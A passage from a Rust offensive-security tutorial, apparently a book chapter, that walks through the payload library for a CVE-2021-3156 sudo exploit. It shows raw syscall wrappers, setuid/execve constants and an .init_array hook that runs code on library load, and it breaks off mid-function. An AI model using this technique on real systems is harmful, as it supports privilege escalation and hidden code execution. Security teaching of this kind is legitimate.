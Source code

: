 

**[ch_07/exploits/cve_2021_3156/payload/src/lib.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_07/exploits/cve_2021_3156/payload/src/lib.rs)**
```rust
#![no_std]

use core::arch::asm;

#[panic_handler]
fn panic(_: &core::panic::PanicInfo) -> ! {
    loop {}
}

const STDOUT: u64 = 1;
// https://filippo.io/linux-syscall-table/
const SYS_WRITE: u64 = 1;
const SYS_EXIT: u64 = 60;
const SYS_SETUID: u64 = 105;
const SYS_SETGID: u64 = 106;
const SYS_GETUID: u64 = 102;
const SYS_EXECVE: u64 = 59;
```

```rust
unsafe fn syscall0(scnum: u64) -> u64 {
    let ret: u64;
    asm!(
        "syscall",
        in("rax") scnum,
        out("rcx") _,
        out("r11") _,
        lateout("rax") ret,
        options(nostack),
    );
    ret
}
// ...
```

Not sure what does it mean? Don't worry, we will learn more about this exotic stuff in the next chapter when crafting shellcodes.


Then comes the little trick. In order to work, the exploit needs to execute a function when the library is loaded (with `dlopen`, for example).


For that, we are going to put a pointer to the function we want to execute in the `.init_array` section.

When the library is loaded by any program, the `rust_init` function will be called and the actual payload executed.

```rust
#[link_section = ".init_array"]
pub static INIT: unsafe extern "C" fn() = rust_init;

// out actual payload
#[no_mangle]
pub unsafe extern "C" fn rust_init() {
    let message = "[+] Hello from Rust payload\n";
    syscall3(
        SYS_WRITE,
        STDOUT,
        message.as_ptr() as u64,
        message.len() as u64,
    );

```
